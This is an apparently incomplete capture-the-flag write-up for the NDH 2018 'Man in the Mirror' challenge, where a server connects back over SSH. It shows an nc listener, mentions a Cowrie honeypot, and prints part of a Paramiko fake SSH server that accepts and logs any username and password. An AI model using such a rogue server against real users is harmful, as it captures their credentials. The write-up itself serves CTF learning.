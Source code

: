 ```yaml
---
title: Quals NDH 2018 - Man in the Mirror
authors: Crypt0_M3lon
layout: writeup
published: false
---
```

Solves: 10 / Points: 500
## Challenge description
> Hey, mickey ! - Give me your IP adress ! - I'll send you what you're looking for. - Stay tuned on 5555 !

## Challenge resolution
We were provided an URL leading to a single page website with a form and the following message:
```
Hey, mickey ! Give me your IP address, I'll send you what you're looking for.
Stay tuned on 5555 mickey !
```
Let's start a listener on port 5555 and submit our IP address:
```
╰─# nc -lvp 5555
listening on [any] 5555 ...
Warning: forward host lookup failed for 51-15-185-101.rev.poneytelecom.eu: Unknown host
connect to [10.8.20.207] from 51-15-185-101.rev.poneytelecom.eu [51.15.185.101] 39920
SSH-2.0-OpenSSH_7.4p1 Debian-10+deb9u3
```
The server try to initiate a SSH connection, our first idea was to set up a small SSH honeypot with Cowrie to spy on the user. It works great but only gave half of the flag and no more information. After many unsuccessfull attempt (and the end of the CTF :( ) we decided to take a look at the user public key.

To do so, we used the Paramiko Python module to log connection information:
```'python
#!/usr/bin/env python
import logging
import socket
import sys
import threading
from binascii import hexlify
import paramiko

logging.basicConfig()
logger = logging.getLogger()

if len(sys.argv) != 2:
    print "Need private host RSA key as argument."
    sys.exit(1)

host_key = paramiko.RSAKey(filename=sys.argv[1])


class Server(paramiko.ServerInterface):
    def __init__(self):
        self.event = threading.Event()

    def check_channel_request(self, kind, chanid):
        if kind == 'session':
            return paramiko.OPEN_SUCCEEDED

    def check_auth_password(self, username, password):
        print('Auth attempt for user %s with password: %s ' % (username, password))
        return paramiko.AUTH_SUCCESSFUL
```